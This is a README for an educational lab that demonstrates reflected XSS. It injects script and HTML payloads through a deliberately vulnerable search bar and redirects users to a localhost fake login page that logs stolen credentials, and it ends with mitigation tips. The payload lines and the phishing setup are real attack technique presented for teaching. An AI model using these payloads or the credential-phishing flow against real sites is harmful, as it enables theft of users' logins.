 # 💥 Reflected XSS Attack Simulation — Fake Login Phishing Demo

This project demonstrates a **Reflected Cross-Site Scripting (XSS)** attack using a vulnerable search bar to redirect users to a fake login form. It simulates how attackers can phish credentials using social engineering and a simple payload injection.

---

## 📌 Objective

* Simulate a **Reflected XSS** attack using realistic payloads.
* Redirect users to a **fake login page** that steals credentials.
* Log the stolen data in the attacker's server.
* Educate users on the **risk of improper input sanitization**.

---

## 🚀 Sample Test Case Execution

### 🔹 Step 1: Run Reflected-XSS Main Project (Frontend + Backend)

**1. Start Frontend**

```bash
cd frontend
npm install
npm start
```

**2. Start Backend**

```bash
cd backend
node server.js
```

This will start the vulnerable React app on: `http://localhost:3000`

---

### 🔹 Step 2: Start Attacker Server (Fake Login Setup)

**Inside `xss-fake-server/` root directory:**

```bash
node server.js
```

This starts the fake login page server at: `http://localhost:3001`

---

## 🧪 Test Reflected XSS Payloads

When the main project is running, you'll see a **search bar** vulnerable to XSS. Use the following payloads to simulate an attack:

### ✅ Payload 1: Alert Box (Simple Proof of XSS)

```html
<script>alert('XSS Attack Successful!');</script>
```

**Run this in browser URL:**

```
http://localhost:5000/search?q=<script>alert('XSS Attack Successful!');</script>
```

**Encoded URL:**

```
http://localhost:5000/search?q=%3Cscript%3Ealert(%27XSS%20Attack%20Successful!%27);%3C/script%3E
```

---

### ✅ Payload 2: Redirecting Link to Fake Login

```html
<a href="http://localhost:3001/" style="font-size:20px; color:red; font-weight:bold;">
    🔴 Click Here to Login Again
</a>
```

This creates a **red link** that redirects users to the attacker's fake login form.

---

### ✅ Payload 3: Redirecting Button to Fake Login

```html
<button onclick="window.location='http://localhost:3001/'" style="font-size:20px; background:red; color:white; padding:10px;">
    🔴 Click Here to Login Again
</button>
```

This creates a **fake red login button** that feels legitimate to users.

---

## 🛑 Security Insight

* **Reflected XSS** doesn’t require stored payloads.
* Attackers usually **send malicious links** (containing injected scripts) via emails, chats, or comments.
* Victims **unknowingly execute** them when they click or search with injected input.
* Real users may be redirected to a **fake login page** that looks identical to the original.
* Credentials are then stolen and saved silently in `stolen_credentials.txt` on the attacker's machine.

---

## 🔒 Mitigation Tips

* Always **sanitize user input** before using it in HTML.
* Use **output encoding** for dynamic data.
* Never use `dangerouslySetInnerHTML` in React without a strong reason.
* Enforce **Content Security Policy (CSP)** headers.
* Escape HTML entities: `<`, `>`, `"`, `&`, etc.

---

## ✅ Conclusion

This project is a practical demonstration of a **Reflected XSS vulnerability** and shows how easy it is for attackers to phish users by injecting malicious scripts through unsanitized inputs. It's built for **educational purposes only**.

Stay aware. Sanitize everything. Never trust user input!
